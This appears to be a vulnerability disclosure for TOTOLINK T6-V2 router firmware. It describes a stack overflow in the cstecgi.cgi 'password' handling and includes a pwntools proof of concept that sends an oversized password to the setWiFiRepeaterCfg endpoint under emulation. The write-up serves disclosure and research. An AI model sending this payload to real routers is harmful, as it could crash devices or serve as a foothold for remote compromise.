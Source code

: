 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00413f80` (at address 0x413f80) gets the JSON parameter `password`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529105156504.png" alt="image-20220529105156504" style="zoom:67%;" />

The program gets the JSON parameter `encrypt`, `password`, `opmode`. When `encrypt` is equal to `WEP` and `opmode` is equal to `rpt`, the program will enter the branch at line 268.

<img src="img/image-20220529105310649.png" alt="image-20220529105310649" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiRepeaterCfg",
    "opmode": "rpt",
    "encrypt": "WEP",
    "password": "A"*0x400,
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

